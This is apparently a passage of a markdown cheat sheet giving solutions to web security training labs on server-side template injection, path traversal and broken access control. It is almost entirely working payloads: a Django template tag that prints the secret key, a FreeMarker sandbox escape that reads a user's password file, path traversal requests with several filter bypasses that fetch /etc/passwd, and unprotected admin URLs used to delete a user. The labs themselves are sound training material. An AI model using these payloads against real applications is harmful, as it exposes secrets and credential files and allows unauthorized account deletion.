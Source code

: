     {% debug %}
    {{settings.SECRET_KEY}}

### Server-side template injection in a sandboxed environment (EXPERT)

    ${object.getClass()}
    
    ${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}

### Server-side template injection with a custom exploit

TO DO

## === Path traversal ===

### File path traversal, simple case

    GET /image?filename=../../../etc/passwd

### File path traversal, traversal sequences blocked with absolute path bypass

	GET /image?filename=/etc/passwd
    
### File path traversal, traversal sequences stripped non-recursively

	GET /image?filename=....//....//....//etc/passwd
    
### File path traversal, traversal sequences stripped with superfluous URL-decode

	GET /image?filename=..%252f..%252f..%252fetc/passwd
    
### File path traversal, validation of start of path

	GET /image?filename=/var/www/images/../../../../../etc/passwd
    
### File path traversal, validation of file extension with null byte bypass

	GET /image?filename=../../../etc/passwd%00.png

## === Access control vulnerabilities === 

### Unprotected admin functionality

	GET /robots.txt
	GET /administrator-panel
	GET /administrator-panel/delete?username=carlos
    